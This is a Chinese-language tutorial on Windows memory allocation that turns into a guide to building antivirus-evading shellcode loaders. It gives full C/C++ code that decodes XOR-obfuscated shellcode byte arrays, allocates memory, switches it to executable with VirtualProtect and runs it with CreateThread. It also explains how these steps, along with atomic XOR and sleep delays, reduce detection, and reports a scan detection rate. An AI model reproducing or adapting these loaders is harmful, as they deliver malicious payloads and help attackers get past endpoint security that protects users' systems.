



# Windows平台下的内存管理

## 1.Windows平台下主要的内存管理途径



## 2.调用关系



第一层：Win32 API作为系统的接口，提供了一组操作虚拟内存的接口；

第二层：Heap作为虚拟内存的一部分，Win32 API又提供了一组操作Heap内存的接口，但是这些接口是建立在操作虚拟内存的接口的基础上。

第三层：Windows平台下的C Run-Time Library 又利用Heap API来实现malloc和free。

由此我们可以看出，这些动态内存操作方式之间存有单一的层次关系，位于这个层次的最低层的是Virtual Memory API，可以说这些方式都是建立在Virtual Memory API的基础上。

调用关系如下表所示为 : new -> malloc -> HeapAlloc -> VirtualAlloc -> 驱动程序的_PageAlloc

# Windows内存操作

Windows操作系统的内存有三种属性，分别为：可读、可写、可执行，并且操作系统将每个进程的内存都隔离开来，当进程运行时，创建一个虚拟的内存空间，系统的内存管理器将虚拟内存空间映射到物理内存上，所以每个进程的内存都是等大的。

在进程申请时，需要声明这块内存的基本信息：申请内存大小、申请内存起始内存基址、申请内存属性、申请内存对外的权限等。

申请方式：

- HeapAlloc
- malloc
- VirtualAlloc
- new
- LocalAlloc

其实以上所有的内存申请方式都与VirtualAlloc有关，因为VirtualAlloc申请的单位是“页”。而Windows操作系统管理内存的单位也是“页”。

```c_cpp
#include <Windows.h>

// 入口函数
int wmain(int argc, TCHAR* argv[]) {

    int shellcode_size = 0; // shellcode长度
    DWORD dwThreadId; // 线程ID
    HANDLE hThread; // 线程句柄
/* length: 800 bytes */
    unsigned char buf[] = "\xf6\xe2\x88\xa\xa\xa\x6a\x83\xef\x3b\xca\x6e\x81\x5a\x3a\x81\x58\x6\x81\x58\x1e\x81\x78\x22\x5\xbd\x40\x2c\x3b\xf5\xa6\x36\x6b\x76\x8\x26\x2a\xcb\xc5\x7\xb\xcd\xe8\xf8\x58\x5d\x81\x58\x1a\x81\x40\x36\x81\x46\x1b\x72\xe9\x42\xb\xdb\x5b\x81\x53\x2a\xb\xd9\x81\x43\x12\xe9\x30\x43\x81\x3e\x81\xb\xdc\x3b\xf5\xa6\xcb\xc5\x7\xb\xcd\x32\xea\x7f\xfc\x9\x77\xf2\x31\x77\x2e\x7f\xee\x52\x81\x52\x2e\xb\xd9\x6c\x81\x6\x41\x81\x52\x16\xb\xd9\x81\xe\x81\xb\xda\x83\x4e\x2e\x2e\x51\x51\x6b\x53\x50\x5b\xf5\xea\x55\x55\x50\x81\x18\xe1\x87\x57\x60\xb\x87\x8f\xb8\xa\xa\xa\x5a\x62\x3b\x81\x65\x8d\xf5\xdf\xb1\xfa\xbf\xa8\x5c\x62\xac\x9f\xb7\x97\xf5\xdf\x36\xc\x76\x0\x8a\xf1\xea\x7f\xf\xb1\x4d\x19\x78\x65\x60\xa\x59\xf5\xdf\x69\x6b\x66\x69\x24\x6f\x72\x6f\xa\xa";
    int shellcodesize = sizeof(buf);
        // 获取shellcode大小

    /*
VirtualAlloc函数，在调用进程的虚拟地址空间中保留、提交或更改页面区域的状态。
    VirtualAlloc(
        NULL, // 基址
        800,  // 大小
        MEM_COMMIT, // 内存页状态
        PAGE_EXECUTE_READWRITE // 可读可写可执行
        );
如果函数成功，则返回值是分配的页面区域的基地址。
如果函数失败，则返回值为NULL。要获取扩展的错误信息，请调用GetLastError。
    */
    char* shellcode = (char*)VirtualAlloc(
        NULL,
        shellcode_size,
        MEM_COMMIT,
        PAGE_EXECUTE_READWRITE
    );
    // 将shellcode复制到可执行的内存页中
    //CopyMemory将一块内存从一个位置复制到另一个位置。可能会造成缓冲区溢出
    /*
void CopyMemory(
  _In_       PVOID  指向复制块目标起始地址的指针,
  _In_ const VOID   指向要复制的内存块的起始地址的指针,
  _In_       SIZE_T 长度，
);
    */
    CopyMemory(shellcode, buf, shellcode_size);
//CreateThread函数，创建线程
    hThread = CreateThread(
        NULL, // 安全描述符
        NULL, // 栈的大小
        (LPTHREAD_START_ROUTINE)shellcode, // 函数
        NULL, // 参数
        NULL, // 线程标志
        &dwThreadId // 若成功，接收新创建的线程的线程ID DWORD变量的地址。
    );
    //通过调用 WaitForSingleObject 函数来监视事件状态,当事件设置为终止状态（WaitForSingleObject 返回 WAIT_OBJECT_0）时，每个线程都将自行终止执行。
    WaitForSingleObject(hThread, INFINITE); // 一直等待线程执行结束
    return 0;
}
```

## 内存申请优化

申请内存页时，可以在Shellcode读入时，申请一个普通的可读写的内存页，然后再通过**VirtualProtect**改变它的属性 -> 可执行。这样也能规避掉一些特征查杀。

```c_cpp
int wmain(int argc, TCHAR* argv[]) {
	int shellcode_size = 0; //shellcode长度
	DWORD dwThreadId;	//线程Id
	HANDLE hThread;		//线程句柄
	DWORD dwOldProtect;	//内存页属性

	unsigned char buf[] = "";
	shellcode_size = sizeof(buf);
	for (int i = 0; i < shellcode_size; i++)
	{
		buf[i] ^= 10;
	}

	char* shellcode = (char*)VirtualAlloc(
		NULL,
		shellcode_size,
		MEM_COMMIT,
		PAGE_READWRITE  //只申请可读可写
		);
	CopyMemory(shellcode, buf, shellcode_size); //将shellcode复制到可读可写的内存中
    //VirtualProtect 的 Win32 实现将更改对调用进程的虚拟地址空间中已提交页面区域的保护。
    /*
    HRESULT VirtualProtect (
    [in]  void*   lpAddress,//一个指针，指向要更保护属性的虚拟内存的基址
    [in]  SIZE_T  dwSize,//要更改的内存页面区域的大小（以字节为单位）。
    [in]  DWORD   flNewProtect, //要应用的内存保护的类型。
    [out] DWORD*  pflOldProtect //一个指针，该指针指向前一个内存保护值。
);
    */
	VirtualProtect(shellcode, shellcode_size, PAGE_EXECUTE, &dwOldProtect); //更改属性为可执行
		hThread = CreateThread(
			NULL, // 安全描述符
			NULL, // 栈的大小
			(LPTHREAD_START_ROUTINE)shellcode, // 函数
			NULL, // 参数
			NULL, // 线程标志
			&dwThreadId // 线程ID
		);

		WaitForSingleObject(hThread, INFINITE);
		return 0;

}
```

## 异或方式优化

通常，我们使用循环去进行异或运算，会使用到异或运算符，这里是较为敏感的操作。InterlockedXorRelease函数可以用于两个值的异或运算，最重要的一点就是，它的操作是原子的，也就是可以达到线程同步。

```c_cpp
char buf[] = "\x4d\x59\x3e\xb1\xb1\xb1\xd1\x80\x63\x38\x54\xd5\x3a\xe3\x81\x3a\xe3\xbd\x3a\xe3\xa5\x3a\xc3\x99\x80\x4e\xbe\x6\xfb\x97\x80\x71\x1d\x8d\xd0\xcd\xb3\x9d\x91\x70\x7e\xbc\xb0\x76\xf8\xc4\x5e\xe3\x3a\xe3\xa1\xe6\x95\xbe\x34\xc1\x4e\x4e\x4e\x58\x2a\x4e\x4e\x4e\xb0\x72\x98\x77\xc4\x70\x72\xa\x41\x4\x13\xe7\xdb\xb1\xe2\x4e\x64\xb1";
shellcode_size = sizeof(buf);
for (int i = 0; i < shellcode_size; i++)
{
	Sleep(1);
	_InterlockedXor8(buf+i, 177);
}
```

完整代码

```c_cpp
#include<Windows.h>
int wmain(int argc, TCHAR* argv[]) {
	int shellcode_size = 0;
	DWORD dwThreadId; //线程id
	HANDLE hThread;//线程句柄
	DWORD dwOldProtect; //内存页属性
	
	char buf[] = "\x66\x72\x18\x9a\x9a\x9a\xfa\x13\x7f\xab\x5a\xfe\x11\xca\xaa\x11\xc8\x96\x11\xc8\x8e\x11\xe8\xb2\x95\x2d\xd0\xbc\xab\x65\x36\xa6\xfb\xe6\x98\xb6\xba\x5b\x55\x97\x9b\x5d\x78\x68\xc8\xcd\x11\xc8\x8a\x11\xd0\xa6\x11\xd6\x8b\xe2\x79\xd2\x9b\x4b\xcb\x11\xc3\xba\x9b\x49\x11\xd3\x82\x79\xa0\xd3\x11\xae\x11\x9b\x4c\xab\x65\x36\x5b\x55\x97\x9b\x5d\xa2\x7a\xef\x6c\x99\xe7\x62\xa1\xe7\xbe\xef\x7e\xc2\x11\xc2\xbe\x9b\x49\xfc\x11\x96\xd1\x11\xc2\x86\x9b\x49\x11\x9e\x11\x9b\x4a\x13\xde\xbe\xbe\xc1\xc1\xfb\xc3\xc0\xcb\x65\x7a\xc5\xc5\xc0\x11\x88\x71\x17\xc7\xf0\x9b\x17\x1f\x28\x9a\x9a\x9a\xca\xf2\xab\x11\xf5\x1d\x65\x4f\x21\x6a\x2f\x38\xcc\xf2\x3c\xf\x27\x7\x65\x4f\xa6\x9c\xe6\x90\x1a\x61\x7a\xef\x9f\x21\xdd\x89\xe8\xf5\xf0\x9a\xc9\x65\x4f\xf9\xfb\xf6\xf9\xb4\xff\xe2\xff\x9a\x9a";
	shellcode_size = sizeof(buf);
	for (int i = 0; i < shellcode_size; i++)
	{
		_InterlockedXor8(buf + i, 7834);
	}
	char* shellcode = (char*)VirtualAlloc(
		NULL,//基址
		shellcode_size,  //大小
		MEM_COMMIT, //内存页状态
		PAGE_READWRITE //可读可写可执行
	);

	CopyMemory(shellcode, buf, shellcode_size);
	VirtualProtect(shellcode, shellcode_size, PAGE_EXECUTE, &dwOldProtect);
	Sleep(2000);
	hThread = CreateThread(
		NULL, // 安全描述符
		NULL, // 栈的大小
		(LPTHREAD_START_ROUTINE)shellcode, // 函数
		NULL, // 参数
		NULL, // 线程标志
		&dwThreadId // 线程ID
	);
	WaitForSingleObject(hThread, INFINITE);
	return 0;
}
```

相比直接申请内存执行，免杀效果好了一些。但远不能让人满意，将shellcode置空，直接对加载器进行查杀，查杀率为23/67，**C++申请内存执行的特征太明显**。

